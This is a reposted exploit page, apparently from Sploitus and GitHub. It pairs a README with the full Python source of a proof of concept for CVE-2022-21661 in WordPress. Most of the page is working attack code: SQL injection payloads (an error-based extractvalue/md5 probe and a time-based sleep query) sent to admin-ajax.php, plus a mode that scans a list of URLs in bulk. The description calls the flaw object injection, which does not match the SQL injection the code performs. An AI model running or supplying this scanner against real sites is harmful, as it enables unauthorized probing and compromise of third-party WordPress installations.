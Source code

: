 #sploitus #python #wordpress #sqlinjection #cve2022

## About
A Python PoC for CVE-2022-21661, adapted from z92g's Go PoC, designed to demonstrate the vulnerability in a more accessible scripting environment.

## Personal Summary



#### Sources: 
https://sploitus.com/exploit?id=6B2D478A-FDF5-5CD0-A6B7-AE5119B13C85 
https://github.com/Fauzan-Aldi/CVE-2022-21661/blob/main/CVE-2022-21661-PoC-main/main.py 

## **Translated from Indonesian**

## Description 
A **Proof-of-Concept (PoC)** Python-based exploit for [**CVE-2022-21661**](https://nvd.nist.gov/vuln/detail/CVE-2022-21661), a **critical vulnerability** in WordPress that could allow an unauthorized attacker to perform **object injection attacks**, which under certain conditions can lead to **Remote Code Execution (RCE)**.

This implementation is inspired by z92g’s Go-based PoC, and is designed to provide a more accessible and user-friendly version for scripters, especially security researchers and CTF practitioners.

> ⚠️ **This tool is intended for legitimate educational and testing purposes only. Unauthorized use of systems that are not yours is illegal.**


## 📦 Installation

Clone this repository and install the required dependencies with the command:

```bash
pip3 install -r requirements.txt
```

---

## 🚀 Usage

Run this script with a single URL or a file containing a list of URLs to check if the site is vulnerable to CVE-2022-21661:


```bash
usage: main.py [-h] [-u URL] [-f FILE]

Identify CVE-2022-21661 on a WordPress installation.

options:
-h, --help Show help and exit
-u URL, --url URL One WordPress site URL to scan.
-f FILE, --file FILE A file containing a list of WordPress URLs (one per line).

Author: FauzanAldi
```

---

## 🧪 Usage Example

Scanning a single site:

```bash
python3 main.py -u https://example.com
```

Scanning multiple WordPress sites from a list of URLs:

```bash
python3 main.py -f urls.txt
```


## Raw Source - Python


```import requests, hashlib, random, argparse, os
from urllib.parse import urlparse
parser = argparse.ArgumentParser(
                    prog='main.py',
                    description='Identify CEV-2022-21661 in Wordpress instances.',
                    epilog='by FauzanAldi')
parser.add_argument('-u', '--url',help='A single URL to check.')
parser.add_argument('-f', '--file',help='A list of URLs to check.')
args=parser.parse_args()
if not args.url and not args.file:
    parser.print_help()
elif args.url and args.file:
    print('Only either -f (--file) or -u (--url) can be used!')
else:
    if args.url:
        url=args.url
        print('Attempting to locate CVE-2022-21661...')
        url=urlparse(url)
        r0 = requests.get(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
        if r0.status_code == 400 and '0' in r0.text:
            randNum = str(random.randint(1234567890987654321,9999999999999999999)).encode('utf-8')
            data='{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) and extractvalue(rand(),concat(0x5e,md5(' + str(randNum) + '),0x5e))#"]}}}'
            r1 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
            if r1.status_code == 200 and str(hashlib.md5(randNum).hexdigest()) in r1.text:
                print('Vulnerable!')
            else:
                print('Failed on MD5, testing time based query...')
                data = '{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) or (select sleep(5))#"]}}}'
                r2 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
                if r2.elapsed.total_seconds() >= 5 and r2.status_code == 200:
                    print('Vulnerable!')
                else:
                    print('Not Vulnerable! (Failed after checking for CVE using 2 PoC\'s)')
        else:
            print('Not Vulnerable! (Failed at admin-ajax check)')
    if args.file:
        if os.path.exists(args.file):
            with open(args.file) as f:
                urls=f.read().split('\n')
                count=0
                urls=list(filter(None, urls))
                for url in urls:
                    count+=1
                    if 'http://' in url or 'https://' in url:
                        url=urlparse(url)
                        print(f'Attempting to locate CVE-2022-21661 on URL {count} of {str(len(urls))} ({url.geturl()})...')
                        r0 = requests.get(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php')
                        if r0.status_code == 400 and '0' in r0.text:
                            randNum = str(random.randint(1234567890987654321,9999999999999999999)).encode('utf-8')
                            data='{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) and extractvalue(rand(),concat(0x5e,md5(' + str(randNum) + '),0x5e))#"]}}}'
                            r1 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
                            if r1.status_code == 200 and str(hashlib.md5(randNum).hexdigest()) in r1.text:
                                print(f'[{count}/{str(len(urls))}] Vulnerable!')
                            else:
                                print(f'[{count}/{str(len(urls))}] Failed on MD5, testing time based query...')
                                data = '{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) or (select sleep(5))#"]}}}'
                                r2 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
                                if r2.elapsed.total_seconds() >= 5 and r2.status_code == 200:
                                    print(f'[{count}/{str(len(urls))}] Vulnerable!')
                                else:
                                    print(f'[{count}/{str(len(urls))}] Not Vulnerable! (Failed after checking for CVE using 2 PoC\'s)')
                        else:
                            print(f'[{count}/{str(len(urls))}] Not Vulnerable! (Failed at admin-ajax check)')
                    else:
                        print(f'[{count}/{str(len(urls))}] Invalid URL: {url}')
```